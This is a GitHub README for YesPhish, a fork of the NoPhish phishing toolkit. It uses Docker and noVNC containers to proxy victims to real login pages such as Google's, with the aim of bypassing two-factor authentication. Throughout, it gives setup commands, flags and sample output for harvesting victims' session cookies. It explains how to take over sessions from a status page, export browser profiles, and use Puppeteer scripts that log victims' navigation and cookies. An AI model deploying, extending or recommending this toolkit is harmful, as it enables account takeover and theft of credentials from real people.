 # YesPhish

This is a fork of [NoPhish](https://github.com/powerseb/NoPhish) (by `powerseb`) with improvements and bugfixes.

![screenshot](yesphish.png)

## Changes in this fork

* Refactored `setup.sh` to make it more modular & easier to maintain
* Moved files that are mostly static into the Docker images instead of the setup.sh script
* Added the `-x` option to spawn firefox with remote debugging port exposed to the host at address `localhost:9XXX` to allow for the use of browser automation (for example with puppeteer)
* Added the `-l` option to allow the user to choose a language to be set as a custom preference
* Builtin puppeteer scripts to control the target browser & log cookies / navigation information
* Fixed some conditions that caused NoPhish to not load properly sometimes due to processes being spawn before the desktop environment was up
* Set the cookie collector loop to every 5 seconds, which is more realistic than 60
* Colored & cleaner output
* Other miscellaneous bugfixes

## Usage

All existing features of NoPhish [should] work the same way. The following features were added:

### Language

The `-l` option is just a helper to set the preferred languages of the browser.

It can be set to a list of values - as long as it doesn't include spaces.

Example:
```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -l es,ru
```

### Editing Preferences

This was a bit annoying in NoPhish (it required changing 4 places in the code). In YesPhish you can just edit the `templates/user.header.js` with your desired values and rerun `setup.sh`.

### RemoteDebuggingPort

With YesPhish it's possible to control the target browser remotely. Just toggle the `-x` flag:

```bash
$ ./setup.sh -u 1 -t https://target -d hello.local -x true
[...]
[~] Generating configuration file
[+] Configuration file generated
[-] Starting containers
———— vnc-user1 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9001
[...]
———— vnc-muser2 (from image vnc-docker) [1/2] ————
[+] RemoteDebuggingPort: 9002
[...]
```

For each user container, a port between `9001` and `9999` is mapped to the host.

This is the remote debugging port of the browser running in that container, and can be used to connect and control the browser with tools such as [Puppeteer](https://github.com/puppeteer/puppeteer):

```bash
$ npm install puppeteer
```

For example, the `scripts/control.js` file is a Puppeteer script that connects to your browser running in the container and spawns a REPL where you can freely interact with the `browser` object:

```bash
$ node scripts/control.js 9001
[+] Attempting to connect to: ws://127.0.0.1:9001/session
[+] Successfully connected to Firefox!
[+] Use the `browser` object in the JS shell below to control the browser.
> (await browser.pages())[0].url()
'https://www.google.com/'
> (await browser.pages())[0].goto("https://www.yahoo.com")
Promise {
  <pending>,
  [Symbol(async_id_symbol)]: 758,
  [Symbol(trigger_async_id_symbol)]: 751
}
```

Another example is the `scripts/log.js` which can be used to log accessed pages and cookies set during the navigation:

```bash
$ node scripts/log.js 9001
[+] Attempting to connect to: ws://127.0.0.1:9001/session
[+] Successfully connected to Firefox!
[2025-05-09T12:42:18.085Z] [page.request] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b
[2025-05-09T12:42:18.334Z] [page.response] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b | Status: 200
[2025-05-09T12:42:18.335Z] [page.requestfinished] URL: https://www.google.com/recaptcha/api2/replaceimage?k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b
[2025-05-09T12:42:18.342Z] [page.request] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861
[2025-05-09T12:42:18.499Z] [page.response] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861 | Status: 200
[2025-05-09T12:42:18.500Z] [page.requestfinished] URL: https://www.google.com/recaptcha/api2/payload?p=06AFcWeA6uTvj9strt0xT_K_4AOOs7LL7Kxj4aw9tae_XwAZeqCYh1kruqKR9RArdnKSG3oqfiuR85_lJVHL-ymg1z2bMNpIbxRGkbPMNrd7THXtxdXvOIhdNgeEf39sk8BIHY48T3u4147MHeQP4EiDbhaJefheIokoAQZXX70da6yvYLo16tJsSheoIzCBBMf_QI3D3VreXZQIXQageGWkmwStxmTR5y8w&k=6LfwuyUTAAAAAOAmoS0fdqijC2PbbdH4kjq62Y1b&id=1040911e67ca0861
```

Besides these samples, the `scripts/biscuits.js` can also be used to log cookies set during the victim's navigation.

> [!IMPORTANT]  
> Be aware that some targets, such as *Google*, use magic tricks to detect when your browser is being controlled by a third-party, and *block the sign-in attempt* before the victim can even enter the password, so this technique won't work for phishing these targets.
> If I knew how these tricks worked by the time I wrote this tool I would have fixed it - there are many open issues in repos related to Puppeteer about this behavior, but none of the answers seemed to work as of 05/2025.
> If you find a solution let me know :-) 

> [!NOTE]  
> If the Puppeteer process exits abruptely but the browser session isn't disconnected properly, the 
> session can be stuck and YesPhish will have to be restarted. This shouldn't happen usually, but it's worth noting.

# NoPhish
 
Another phishing toolkit which provides an docker and noVNC based infrastructure. The whole setup is based on the initial article of [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) and [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html).

A detailed description of the setup can be found here - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## Installation

Ensure that docker is installed and working.

Install the required python modules:

```console
pip install lz4
```

Install the setup (which will create the required docker images):

```console
setup.sh install
```

## Execution

The setup offers the following parameters:

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```

A basic run looks like the following:

```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```

During the run the following overview provides a status per URL how many cookies or session informations have been gathered.

```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

Please note that the tool will export all cookies / session information even when it is not related to a successfull login.

Further you can also directly interact with the tool on the status page - `http(s)://%DOMAIN%:65534/status.php`. There you have the possability to disconnect the user and directly take over the session. 

In the current version of the tool for every user two containers are spawned - one for desktops and one for mobile devices. Based on the user agent the target gets redirected to suitable container. The output of the mobile container is named with a leading "m" (e.g. mphis1-ffprofile). 

## Using profile export
If you are using the complete FireFox profile export, you can just call firefox with -profile like that:

On Windows:
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

On Linux:
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

Everything is getting restored, including the latest site.

Please note by default you need to extract the zip archive or set the parameter `-z` to `false`. If the export format `-e simple` is chosen two json files will be generated which can be used with Cookiebro which is available for [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) and [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn).


## CleanUp

During a run the script can be terminated with `ctrl` + `c` - all running docker container will then be deleted. To fully remove the setup run `setup.sh cleanup`.

